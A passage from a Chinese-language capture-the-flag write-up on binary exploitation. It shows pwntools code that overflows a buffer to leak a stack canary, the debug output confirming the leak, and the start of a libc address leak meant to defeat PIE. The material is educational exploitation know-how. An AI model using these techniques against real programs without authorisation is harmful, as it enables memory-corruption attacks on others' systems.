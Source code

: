 
考虑到 `memset()` 函数在这里只清空了 0x100 的数据 （一直到 `0x7fffffffdaf0: 0x0000000000000000` ）  ，而 `0x7fffffffdaf8: 0xe719bae42bbeac00` ，这是一个 0x00 作结尾的数据，可以推测这就是 Canary，关于 `s` 的偏移值为 0x108。

```python
conn.recv(0x7) #0x7 bytes: b'input> '
offset = b'A'*(0x108)
conn.send(offset + b'B')
conn.recv(0x108)
Canary = u64(conn.recv(0x8)) - 0x42
conn.recv(0x9)
log.info("Canary:"+hex(Canary)) 
```

运行效果如下：

---

<pre>[<font color="#C01C28"><b>DEBUG</b></font>] Received 0x7 bytes:
    b&apos;input&gt; &apos;
[<font color="#C01C28"><b>DEBUG</b></font>] Sent 0x109 bytes:
    b&apos;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB&apos;
[<font color="#C01C28"><b>DEBUG</b></font>] Received 0x119 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA<font color="#12488B">│</font>AAAA<font color="#12488B">│</font>AAAA<font color="#12488B">│</font>AAAA│
    *
    00000100  41 41 41 41  41 41 41 41  42 <font color="#12488B">9f</font> 7e 4b  <font color="#12488B">15</font> <font color="#12488B">b6</font> 3e <font color="#12488B">f9</font>  │AAAA<font color="#12488B">│</font>AAAA<font color="#12488B">│</font>B<font color="#12488B">·</font>~K<font color="#12488B">│··</font>&gt;<font color="#12488B">·</font>│
    00000110  <font color="#12488B">01</font> <font color="#C01C28">0a</font> 69 6e  70 75 74 3e  20                        │<font color="#12488B">·</font><font color="#C01C28">·</font>in<font color="#12488B">│</font>put&gt;<font color="#12488B">│</font> │
    00000119
[<font color="#12488B"><b>*</b></font>] Canary:0xf93eb6154b7e9f00
</pre>

得到 Canary 为 `0xf93eb6154b7e9f00`

程序没有检测到栈溢出，而是正常退出，这说明 Canary 成功泄漏并绕过了。

### Leaking libc addr

由于开了 PIE，每次运行的基址都不一样，所以每次栈溢出 ROP 之前，都需要得到 libc 的地址。通过 `objdump -d` 可以发现程序里确实是有 `libc_start_main()` 的符号，我们可以找到它的地址，再减去其在 libc 中的偏移地址，从而得到 libc 地址。

首先，动态调试时（此时正在 `read()` 函数内）看到如下信息：

----

<pre><font color="#12488B">─────────────────────────[ BACKTRACE ]──────────────────────────</font>
 ► 0   0x55555555526b
   1   0x7ffff7c29d90
   2   0x7ffff7c29e40 __libc_start_main+128
   3   0x555555555125
</pre>
因此可以判定， `0x55555555526b` （作为 `read()` 函数的返回地址）位于 `main()` 内，因此 `0x7ffff7c29d90` 就是 `main()` 函数执行完后的返回地址。
